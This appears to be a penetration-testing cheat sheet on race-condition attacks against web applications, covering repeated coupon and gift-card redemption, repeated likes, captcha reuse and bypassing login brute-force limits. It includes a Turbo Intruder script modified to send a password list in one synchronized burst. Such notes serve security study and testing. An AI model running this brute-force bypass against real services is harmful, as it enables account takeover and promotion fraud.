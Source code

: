 # Race Conditions
## 1. Limit Overrun Race Conditions
###(i). Using promo code multiple times or redemming a gift card multiple times**: Send the request that is applying coupon code to the repeater. Add it in a group. Duplicate it 20 times and send it send the requests parallely.<br>
**(ii). Rating/Likes multiple times**<br>
**(iii). Reusing single captcha multiple times**<br>
###(iv). Bypassing Bruteforce Protection
Send the login request to repeater and take this into turbo intruder.<br>
Copy all the passwords for which you want to include the request.<br>
In the requestm change password=VALUE to password=%s<br>
Change the script to examples/race-single-packet-attack.py<br>
Copy the passwords so that it can be in the clipboard.
Original Script:
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        engine.queue(target.req, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
Changed Script:
```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
Click on Attack.



